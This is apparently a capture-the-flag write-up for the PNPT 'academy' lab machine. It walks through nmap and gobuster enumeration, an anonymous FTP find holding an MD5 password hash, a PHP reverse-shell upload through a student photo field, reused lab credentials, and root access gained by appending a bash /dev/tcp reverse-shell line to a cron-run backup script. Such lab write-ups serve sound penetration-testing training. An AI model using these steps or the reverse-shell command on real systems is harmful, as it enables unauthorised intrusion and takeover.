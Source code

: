 ```yaml
---
title: academy (PNPT)

date: "2023-12-22"

author: "MatDef"

---
```


# Description:
- NONE
# Information Gathering

## Enumeration

### nmap
Standard nmap scan of `192.168.111.11`: `nmap -T4 -p- -A $rhost`
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.111.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ftp-anon login: Found note.exe
```sql
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```
- Login Rum Ham: 10201321:student(MD5)
- Academy/sql admin: Grimmie (uses probably the same password in other services)

### gobuster
```shell
/academy              (Status: 301) [Size: 318] [--> http://192.168.111.11/academy/]
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.111.11/phpmyadmin/]
```
![profile-picture upload](images/academy_upload.png)

# Exploitation
Upload php-reverse-shell on the studentphoto-upload field and got Access
Found backup.sh which is also in crontab (runing every minute)
![](images/crontab.png)

Linpeas:

![](images/mysql_password.png)
phpMyAdmin: grimmie:My_V3ryS3cur3_P4ss

-> SSH Access (same Password)

Modify backup.sh:
`echo "/bin/bash -i >& /dev/tcp/192.168.111.10/9002 0>&1" >> backup.sh`

Got Root-Shell
---

### References & Further Research
- [Another PrivEsc: Linux chfn (SuSE 9.3/10)?](https://www.exploit-db.com/exploits/1299)
- [unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

